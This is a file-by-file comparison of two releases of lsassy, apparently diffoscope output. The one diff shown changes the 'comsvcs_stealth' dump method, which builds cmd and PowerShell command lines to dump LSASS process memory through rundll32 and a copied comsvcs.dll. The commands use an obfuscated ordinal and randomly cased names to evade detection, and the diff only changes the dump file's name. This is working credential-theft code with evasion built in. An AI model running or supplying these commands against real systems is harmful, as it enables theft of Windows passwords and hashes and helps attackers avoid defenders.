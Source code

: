 ### Comparing `lsassy-3.1.8/lsassy/dumpmethod/comsvcs.py` & `lsassy-3.1.9/lsassy/dumpmethod/comsvcs.py`

 * *Files identical despite different names*

### Comparing `lsassy-3.1.8/lsassy/dumpmethod/comsvcs_stealth.py` & `lsassy-3.1.9/lsassy/dumpmethod/comsvcs_stealth.py`

 * *Files 6% similar despite different names*

```diff
@@ -29,22 +29,22 @@
     def get_commands(self):
         tasklist = self.random_case("tasklist")
         lsass = self.random_case("lsass")
         copy_command = "copy {}{}.log {}{}".format(self.dump_path, self.dump_name, self.dump_path, self.dump_name)
             
         cmd_command = [
             """for /f "tokens=1,2 delims= " ^%A in ('"{} /fi "Imagename eq {}.ex*" | find "lsass""') do rundll32.exe C:{}{} #+0000^24 ^%B {}{} full""".format(
-                tasklist, lsass, self.comsvcs_copy_path, self.comsvcs_copy_name, self.dump_path, self.dump_name
+                tasklist, lsass, self.comsvcs_copy_path, self.comsvcs_copy_name, self.dump_path, self.dump_name + ".log"
             ),
             copy_command
         ]
 
         pwsh_command = [
             """rundll32.exe C:{}{} `#+0000^24 (Get-Process {}).Id {}{} full""".format(
-                 self.comsvcs_copy_path, self.comsvcs_copy_name, lsass, self.dump_path, self.dump_name
+                 self.comsvcs_copy_path, self.comsvcs_copy_name, lsass, self.dump_path, self.dump_name + ".log"
             ),
             copy_command
         ]
 
         return {
             "cmd": cmd_command,
             "pwsh": pwsh_command
```

### Comparing `lsassy-3.1.8/lsassy/dumpmethod/dllinject.py` & `lsassy-3.1.9/lsassy/dumpmethod/dllinject.py`

 * *Files identical despite different names*

### Comparing `lsassy-3.1.8/lsassy/dumpmethod/dumpert.py` & `lsassy-3.1.9/lsassy/dumpmethod/dumpert.py`
